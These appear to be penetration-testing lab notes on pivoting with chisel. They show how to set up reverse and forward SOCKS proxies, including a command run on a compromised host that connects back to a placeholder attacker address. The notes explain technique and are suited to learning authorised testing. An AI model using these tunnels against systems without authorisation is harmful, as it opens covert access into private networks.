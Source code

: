 On our own attacking box we would use a command that looks something like this:

command: ./chisel server -p LISTEN_PORT --reverse &

## This sets up a listener on your chosen LISTEN_PORT.

## On the compromised host, we would use the following command:

command: ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

## This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (&) to background the processes.

## Note the use of R:socks in this command. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended. 



Method Forward SOCKS Proxy:
---------------------------

## First, on the compromised host we would use:

command: ./chisel server -p LISTEN_PORT --socks5

## On our own attacking box we would then use:

command: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## In this command, PROXY_PORT is the port that will be opened for the proxy.


Example:


command: ./chisel client 172.16.0.10:8080 1337:socks

## would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

